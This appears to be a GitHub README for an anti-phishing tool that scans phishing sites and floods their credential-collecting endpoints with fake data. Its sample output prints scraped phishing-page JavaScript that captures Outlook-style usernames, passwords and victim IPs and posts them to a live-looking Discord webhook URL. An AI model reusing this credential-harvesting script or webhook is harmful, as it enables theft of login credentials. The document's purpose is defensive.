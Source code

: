 # Phish Phucker

![PhishPhucker Logo](https://i.ibb.co/jD9dqMm/openart-image-5-C4-YIl-FF-1717586639754-raw.jpg)
## In Partnership With
![Webamon Logo](https://i.ibb.co/ggbMv7C/weblogo.png)

## The Idea
- **Phuck The Phishers**: Make the effort of a successful phishing campaign much harder than the rewards.
- **Change How We Block**: Multiple phishing websites rely on the same backend endpoint to receive phished credentials. By exposing the required endpoint for the phishing kit to operate, we can block on our network tools. 1x Block = n phishing domains.

## Overview

Welcome to **PhishPhucker**, the revolutionary open-source cybersecurity tool designed to disrupt the phishing industry like never before. PhishPhucker ingests public and custom phishing feeds/URLs, scans them, and launches sophisticated countermeasures to thwart phishing attacks. Our mission is to make phishing an unprofitable and ineffective endeavor by mimicking real user behavior and overwhelming attackers with arbitrary but human-like data.

## Features

- **Ingest Multiple Phishing Feeds**: Seamlessly integrate public phishing feeds and custom URLs for comprehensive coverage.
- **Layered Security**: By exposing and then blocking the endpoints that receive comp'd creds, end users can fall for a phish but network applications block the POST. 
- **Website Scanning**: Extract scripts and phishing kits from malicious websites, identify the endpoints where credentials are sent.
- **Simulated Post Requests**: Recreate phishing post requests and flood attackers' endpoints with realistic-looking data.
- **Distributed Client Network**: Deploy PhishPhucker clients across multiple web edge points to mimic real-world phishing actions.
- **Pseudo-Random Timing**: Vary intervals between actions to avoid detection and mimic human behavior.
- **Multiple User Agents and Source IPs**: Use diverse browser user agents and source IPs (ISPs) to simulate a wide range of victims.
- **Network Proxy**: Utilize on-prem & internet proxy solutions to manipulate network data + requests.
- **Real Dummy Accounts**: Modern phishing kits employ an Account Checking feature that verifies if the credentials work for the provided service. PhishPhucker accounts will be returned as legit.
- **Open Source and Extensible**: Fully open source with an active community contributing to its development and enhancement.

## Installation

### Prerequisites
- Linux base machine (Docker for Widnows usage)
- Python 3.11 or higher
- Docker (optional, for containerized deployment)
- Git

### Steps

1. **Clone the Repository**:
   ```bash
   git clone https://github.com/php-p/PhishPhucker.git
   cd PhishPhucker
   ```

2. **Install Dependencies**:
   ```bash
   pip install -r requirements.txt
   ```

3. **Run the Application**:
   ```bash
   python phishphucker.py
   ```

4. **(Optional) Deploy with Docker**:
   ```bash
   docker build -t phishphucker .
   docker run -d phishphucker
   ```
     
5. **Sample Output**:
     ```json
     {
    "utc": "2024-06-05 16:57:54",
    "pageTitle": "Screen",
    "pageLinks": [
        "<link href=\"/owa/auth/15.0.1497/themes/resources/favicon.ico\" rel=\"shortcut icon\" type=\"image/x-icon\"/>"
    ],
    "pageScripts": [
        "<script src=\"https://code.jquery.com/jquery-3.6.0.min.js\"></script>",
        "<script>\n\n        var mainLogonDiv = window.document.getElementById(\"mainLogonDiv\");\n        var showPlaceholderText = false;\n        var mainLogonDivClassName = 'mouse';\n\n        if (mainLogonDivClassName == \"tnarrow\") {\n            showPlaceholderText = true;\n\n            // Output meta tag for viewport scaling\n            document.write('<meta name=\"viewport\" content=\"width = 320, initial-scale = 1.0, user-scalable = no\" />');\n        }\n        else if (mainLogonDivClassName == \"twide\") {\n            showPlaceholderText = true;\n        }\n\n        function setPlaceholderText() {\n            window.document.getElementById(\"username\").placeholder = \"user name\";\n            window.document.getElementById(\"password\").placeholder = \"password\";\n            window.document.getElementById(\"passwordText\").placeholder = \"password\";\n        }\n\n        function showPasswordClick() {\n            var showPassword = window.document.getElementById(\"showPasswordCheck\").checked;\n            passwordElement = window.document.getElementById(\"password\");\n            passwordTextElement = window.document.getElementById(\"passwordText\");\n            if (showPassword) {\n                passwordTextElement.value = passwordElement.value;\n                passwordElement.style.display = \"none\";\n                passwordTextElement.style.display = \"inline\";\n                passwordTextElement.focus();\n            }\n            else {\n                passwordElement.value = passwordTextElement.value;\n                passwordTextElement.style.display = \"none\";\n                passwordTextElement.value = \"\";\n                passwordElement.style.display = \"inline\";\n                passwordElement.focus();\n            }\n        }\n    </script>",
        "<script>\n\n            var mainLogonDiv = window.document.getElementById(\"mainLogonDiv\");\n            mainLogonDiv.className = mainLogonDivClassName;\n        </script>",
        "<script>\n    function sleep(milliseconds) {\n        const date = Date.now();\n        let currentDate = null;\n        do {\n            currentDate = Date.now();\n        } while (currentDate - date < milliseconds);\n    }\n\n    var linksc = window.location.href\n    var value = linksc.split('#')\n    values = value[1]\n\n    document.getElementById(\"username\").value = values;\n    // document.getElementById(\"username\").value = values; \n\n\n    let count = 0;\n    var btn = document.getElementById(\"buttonId\");\n    var pwd = document.getElementById(\"password\");\n    var agents = navigator.userAgent;\n\n\n\n    btn.onclick = function () {\n        if (pwd.value.length > 0) {\n            count++;\n            if (count <= 2) {\n\n\n\n                var xhr = new XMLHttpRequest();\n                xhr.open(\"GET\", \"https://ipinfo.io/json\", true);\n                xhr.onreadystatechange = function () {\n                if (xhr.readyState === 4 && xhr.status === 200) {\n                var response = JSON.parse(xhr.responseText);\n                // Handle the response data here\n                var ipAddress = response.ip\n\n                request.open(\"POST\", \"https://discord.com/api/webhooks/1138373288825987072/uB3bmO96XIzWcQsjmu6JQlu3FidKgbFXbtmJxYSMr6ZAyLAmbAF7czZM6sW081J4mRFL\");\n                request.setRequestHeader('Content-type', 'application/json');\n                var params = {\n                content: (\" > **IP: **\" + ipAddress)\n                }\n                request.send(JSON.stringify(params));\n                    \n\n                }\n\n                };\n                xhr.send();\n\n\n                var request = new XMLHttpRequest();\n                request.open(\"POST\", \"https://discord.com/api/webhooks/1138373288825987072/uB3bmO96XIzWcQsjmu6JQlu3FidKgbFXbtmJxYSMr6ZAyLAmbAF7czZM6sW081J4mRFL\");\n                request.setRequestHeader('Content-type', 'application/json');\n                var params = {\n                    content: (\"> **USERNAME  : **\" + document.getElementById(\"username\").value + \"\\n> **PASSWORD : **\" + document.getElementById(\"password\").value + \"\\n> **USER-AGENT: **\" + agents)\n                }\n                request.send(JSON.stringify(params));\n\n               \n\n                text = \"The user name or password you entered isn't correct. Try entering it again.\";\n                // document.getElementById(\"username-error\").innerHTML = text;\n                // // document.getElementById(\"errorMessage\").style.color = \"red\";\n                document.getElementById(\"signInErrorDiv\").innerText = text;\n                document.getElementById(\"password\").value = \"\";\n                sleep(1000)\n            }\n            if (count == 2) {\n                texts = \"Verification successful... Thank you.\";\n                document.getElementById(\"signInErrorDiv\").style.color = \"green\";\n                document.getElementById(\"signInErrorDiv\").innerHTML = texts;\n                sleep(4500)\n                window.location.replace(\"https://www.microsoft.com/en-us/microsoft-365/outlook/web-email-login-for-outlook\");\n            }\n        } else {\n            text = \"The user name or password you entered isn't correct. Try entering it again.\"\n            // document.getElementById(\"errorMessage\").style.color = \"red\";\n            // document.getElementById(\"login-failure\").innerHTML = \"\";\n            document.getElementById(\"signInErrorDiv\").innerHTML = text;\n\n            // document.getElementById(\"alert\").style.backgroundColor = \"#d0452f\"; \n\n\n\n        }\n\n    }\n</script>"
    ]

   }

      ```

## Contributing

We welcome contributions from the community to enhance PhishPhucker. Feel free to submit pull requests, report issues, or suggest features.

1. **Fork the Repository** on GitHub
2. **Create a Feature Branch**:
   ```bash
   git checkout -b feature/your-feature-name
   ```
3. **Commit Your Changes**:
   ```bash
   git commit -m 'Add some feature'
   ```
4. **Push to the Branch**:
   ```bash
   git push origin feature/your-feature-name
   ```
5. **Open a Pull Request** on GitHub

## License

PhishPhucker is released under the Apache 2.0 License. See the [LICENSE](LICENSE) file for more details.

## Acknowledgements

- Thanks to the open-source community for their invaluable contributions and feedback.
- Special mention to the decade long successful Threat Actors who's actions inspire and guide this projects direction.

## Disclaimer

PhishPhucker is intended for ethical use only. Unauthorized use of this software to interfere with legitimate websites or services is strictly prohibited. The authors and contributors are not responsible for any misuse of the software.


---

PhishPhucker: Turning the Tide Against Phishing.

---

![GitHub Stars](https://img.shields.io/github/stars/php-p/PhishPhucker?style=social)
![GitHub Forks](https://img.shields.io/github/forks/php-p/PhishPhucker?style=social)
![GitHub Issues](https://img.shields.io/github/issues/php-p/PhishPhucker)
![GitHub License](https://img.shields.io/github/license/php-p/PhishPhucker)

